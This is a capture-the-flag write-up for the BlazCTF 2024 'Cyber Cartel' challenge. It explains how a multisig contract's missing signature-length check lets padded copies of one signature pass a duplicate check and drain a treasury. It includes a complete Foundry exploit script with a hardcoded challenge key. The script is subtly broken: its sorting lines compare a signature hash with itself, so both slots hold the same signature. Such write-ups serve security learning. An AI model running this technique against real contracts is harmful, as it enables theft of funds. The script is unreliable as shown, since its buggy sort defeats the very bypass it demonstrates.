

### Introduction

This is the first article for the BlazCTF 2024 challenge writeup. The challenge is titled `Cyber Cartel`, under the `Solidity` category. During the competition, 35 teams solved this challenge.

BlazCTF 2024 Cyber Cartel Challenge Link: https://github.com/fuzzland/blazctf-2024/tree/main/cyber-cartel

First, let’s check out the setup for the challenge by navigating to `cyber-cartel/project/script/Deploy.s.sol`.

### Overview

In the deployment script, the deployer creates the `CartelTreasury` contract and three guardian addresses, passing these values as parameters to the `BodyGuard` contract. Then, the `bodyguard` is passed to the `CartelTreasury::initialize` function. Finally, the `cartel` is passed into the challenge contract, and by checking the contract’s constructor, we can see that the address is set to the `TREASURY`.

During the setup, the `deployer` transfers 10 ether to each guardian and 777 ether to the `cartel` contract. Our objective is to drain all the ether from the `Challenge::Treasury`, that is, the 777 ether stored in the `cartel` contract.

```JavaScript
function isSolved() external view returns (bool) {
    return address(TREASURY).balance == 0;
}
```

So, the relation among these three challenge now is as follows:



### CartelTreasury

How can we stole all the ether from the `cartel` contract? We can checkout all the ether transfer related function in the `cartel` contract first.

There are two function that contains the ether transfer logic: `CartelTreasury::salary` and `CartelTreasury::doom`.

There is a time delay between each withdrawal in `CartelTreasury::salary`, and each action only withdraws 0.0001 ether, which may be too slow for us. On the other hand, `CartelTreasury::doom` seems much more straightforward, as it transfers all ether directly to the `msg.sender`. However, we cannot invoke this function directly at the moment due to the restrictions in the `guarded` modifier. The `bodyGuard` address is nonzero and points to the `cartel` contract address now.

```JavaScript
modifier guarded() {
    require(bodyGuard == address(0) || bodyGuard == msg.sender, "Who?");
    _;
}
```

Can we bypass the restriction by setting the `CartelTreasury::bodyGuard` address to the zero address? While `CartelTreasury::gistCartelDismiss` looks great, it is also protected by the `guard` modifier. What about the `CartelTreasury::initialize` function? Unfortunately, that won’t work either, as the `require` statement will fail since the `bodyGuard` variable is no longer set to the zero address.

The only way to interact with the `cartel` contract is through the `bodyGuard` contract. Now, let's focus on the `BodyGuard` contract.

### BodyGuard

The `BodyGuard` contract functions like a multisig wallet, where users can propose actions, collect the required signatures, and then call `BodyGuard::propose` to execute the action. From the deployment script, we know that there are 3 guardians, or signers, for this multisig wallet.

I checked whether the private keys for these guardian addresses could be found online, as some challenges can only be solved by this method. For example, this challenge: https://github.com/fuzzland/blazctf-2023/tree/main/challenges/be-billionaire-today

Unfortunately, we couldn’t find what we were looking for, so we still need to break down the contract.

#### `BodyGuard::propose`

The function first checks the `expiredAt` timestamp to ensure the proposal hasn’t expired and the `nonce` value to prevent signature replay issue. It then verifies if the caller is one of the signers. Since we have the player's private key and the player is one of the guardians, we only need to submit two signatures here.

```C
uint256 minVotes_ = minVotes;
if (guardians[msg.sender]) {
    minVotes_--;
}
```

Next, the function verifies if the number of signatures meets the required `BodyGuard::minVotes`, comparing it with the length of the signature array, and validates the signatures using `BodyGuard::validateSignatures`. After this, it updates the `lastNonce` value and executes the action.

The latter part of the contract seems straightforward. Here, we can interact with the `cartel` contract and craft calldata to invoke the `CartelTreasury::gistCartelDismiss` function, and then we can call `CartelTreasury::doom` to drain all the funds.

#### `BodyGuard::validateSignatures`

However, the earlier part of the contract raises concerns. Can we submit duplicate signatures, since the function only checks if the number of signatures is sufficient? In the `BodyGuard::validateSignatures` function, it recovers the signatures, hashes them, and compares the local variable `signHash` to ensure no duplicates.


This is a common pattern to prevent duplicate values in an array — if a duplicate signature is submitted, it will generate the same signature hash, and the value will not be greater than the previous `signHash`.

#### `BodyGuard::recoverSigner`

Alright, for the next function, it seems particularly weird:

```C
function recoverSigner(bytes32 digest, bytes memory signature) public pure returns (address) {
    bytes32 r;
    bytes32 s;
    uint8 v;
    assembly {
        r := mload(add(signature, 32))
        s := mload(add(signature, 64))
        v := byte(0, mload(add(signature, 96)))
    }
    return ecrecover(digest, v, r, s);
}
```

This function aims to recover the signature through the `ecrecover` precompiles. I fetch the `ECDSA` library from Oppenzeppelin for comparison, here I remove all the comment for simplicity:

```C
function tryRecover(bytes32 hash, bytes memory signature) internal pure returns (address, RecoverError, bytes32) {
    if (signature.length == 65) {
        bytes32 r;
        bytes32 s;
        uint8 v;
        // ecrecover takes the signature parameters, and the only way to get them
        // currently is to use assembly.
        assembly ("memory-safe") {
            r := mload(add(signature, 0x20))
            s := mload(add(signature, 0x40))
            v := byte(0, mload(add(signature, 0x60)))
        }
        return tryRecover(hash, v, r, s);
    } else {
        return (address(0), RecoverError.InvalidSignatureLength, bytes32(signature.length));
    }
}
...
function tryRecover(
        bytes32 hash,
        uint8 v,
        bytes32 r,
        bytes32 s
    ) internal pure returns (address, RecoverError, bytes32) {
        if (uint256(s) > 0x7FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF5D576E7357A4501DDFE92F46681B20A0) {
            return (address(0), RecoverError.InvalidSignatureS, s);
        }

        // If the signature is valid (and not malleable), return the signer address
        address signer = ecrecover(hash, v, r, s);
        if (signer == address(0)) {
            return (address(0), RecoverError.InvalidSignature, bytes32(0));
        }

        return (signer, RecoverError.NoError, bytes32(0));
    }
```

It seems much more complex, doesn’t it? In the `OpenZeppelin` version, there’s much more input validation. If you dig deeper into the library, you’ll find that it checks the following:

(1) The signature length must be 65 bytes.
(2) The uint256(s) value must not exceed `0x7FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF5D576E7357A4501DDFE92F46681B20A0`.
(3) The `v` value must be either 27 or 28.

You can find more details on why these restrictions are necessary in the link below:

https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/cryptography/ECDSA.sol

What we could potentially exploit here is the signature length validation. Since `BodyGuard::recoverSigner` only extracts the first 65 bytes of the signature, we can append additional data after a valid signature, this leads to a different signature hash and bypasses the signature hash comparison in `BodyGuard::validateSignatures`. The last two validation checks might be useless for our purposes, as creating a faulty signature won’t help us bypass the checks.

Below is a simple proof-of-concept: both `sig0` and `sig1` are valid signatures that return the player's address, as only the first 65 bytes are extracted by `BodyGuard::recoverSigner`. However, in the meanwhile, the signatures will produce distinct signature hashes.

```C
bytes32 digest = hashProposal(proposal);

// Create a valid signature using player's private key
(uint8 v, bytes32 r, bytes32 s) = vm.sign(pk, digest);
bytes memory sig = abi.encodePacked(r, s, v);

// Append data to the valid signature
bytes memory sig0 = abi.encodePacked(sig, "0");
bytes memory sig1 = abi.encodePacked(sig, "1");

// Generate distinct signature hash by appending data to the signature.
uint256 sigHash0 = uint256(keccak256(sig0));
uint256 sigHash1 = uint256(keccak256(sig1));
```

### Solution

To summarize, we can follow these steps to solve this challenge:

1. Create a `BodyGuard::Proposal` that calls `CartelTreasury::gistCartelDismiss`, which resets the `CartelTreasury::bodyGuard` value to the zero address.
2. Generate a valid signature using the player's private key, then create two signatures by appending random data to the valid one. Sort the signature hashes to ensure they are in increasing order.
3. Call the `BodyGuard::propose` function and pass the parameters obtained from the previous steps.
4. With `CartelTreasury::bodyGuard` now set to the zero address, we can bypass the `guard` modifier and call `CartelTreasury::doom` to drain all the ether stored in the contract.

The corresponding Foundry script for the solution is as follows:

```C
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

// Foundry Library
import {Script, console} from "forge-std/Script.sol";

// Source Contract
import {Challenge} from "../src/challenge.sol";
import {CartelTreasury, BodyGuard} from "../src/CyberCartel.sol";

contract SolutionScript is Script {
    // Challenge Contract
    Challenge internal challenge;
    CartelTreasury internal cartel;
    BodyGuard internal bodyGuard;

    // Challenge Contract Address
    address internal challengeAddr;
    address internal cartelAddr;
    address internal bodyGuardAddr;
    address internal treasury;

    // Player Private Key and Address
    uint256 internal pk = 0xa7c3cc196ea8a05f49d06121e12299fb686b7b477ec0b048e8120fb5ac86d167;
    address internal player;

    // Digest Seed
    bytes public constant DIGEST_SEED = hex"80840397b652018080";

    function setUp() public {
        player = vm.addr(pk); // get the player's address

        challengeAddr = 0x2429A189dd3323AaD7Fc9c1E658Dd80c0ab12Fd5;
        challenge = Challenge(challengeAddr);

        treasury = address(challenge.TREASURY()); // get the treasury address

        cartel = CartelTreasury(payable(challenge.TREASURY()));
        bodyGuard = BodyGuard(address(cartel.bodyGuard()));
    }

    function run() public {
        vm.startBroadcast(pk);

        // Step 1
        // Create a `BodyGuard::Proposal` that calls `CartelTreasury::gistCartelDismiss`,
        // which resets the `CartelTreasury::bodyGuard` value to the zero address.
        BodyGuard.Proposal memory proposal = BodyGuard.Proposal({
            expiredAt: uint32(block.timestamp) + 1000,
            gas: uint24(player.balance / 10),
            nonce: 1,
            data: abi.encodeWithSignature("gistCartelDismiss()")
        });

        // Step 2
        // Generate a valid signature using the player's private key,
        // then create two signatures by appending random data to the valid one.
        // Sort the signature hashes to ensure they are in increasing order.
        bytes32 digest = hashProposal(proposal);

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(pk, digest);
        bytes memory sig = abi.encodePacked(r, s, v);
        bytes memory sig0 = abi.encodePacked(sig, "0");
        bytes memory sig1 = abi.encodePacked(sig, "1");

        bytes[] memory signatures = new bytes[](2);
        signatures[0] = uint256(keccak256(sig0)) < uint256(keccak256(sig0)) ? sig0 : sig1;
        signatures[1] = uint256(keccak256(sig0)) < uint256(keccak256(sig0)) ? sig0 : sig1;

        // Step 3
        // Call the `BodyGuard::propose` function and pass the parameters obtained from the previous steps.
        bodyGuard.propose(proposal, signatures);

        // Step 4
        // With `CartelTreasury::bodyGuard` now set to the zero address,
        // we can bypass the `guard` modifier and call `CartelTreasury::doom` to drain all the ether stored in the contract.
        cartel.doom();

        vm.stopBroadcast();
    }

    function hashProposal(BodyGuard.Proposal memory proposal) public view returns (bytes32) {
        return keccak256(
            abi.encodePacked(proposal.expiredAt, proposal.gas, proposal.data, proposal.nonce, treasury, DIGEST_SEED)
        );
    }
}
```
Now we've drained all the ether from the `cartel`. Well done! We've successfully solved a challenge in BlazCTF 2024!

### Closing

When using `ECDSA` signatures, several security concerns should be considered, including:

1. Signature replay attacks when signatures are not properly tracked or invalidated after use: https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/SignatureReplayNBA.sol
2. Signature replay due to the absence of a nonce value: https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/SignatureReplay.sol
3. Signature replay across multiple chains if the chain ID is not included in the message hash: https://www.quicknode.com/guides/ethereum-development/smart-contracts/what-are-replay-attacks-on-ethereum
4. The ecrecover function returning a zero address on failure: https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/ecrecover.sol


Thank you for reading!


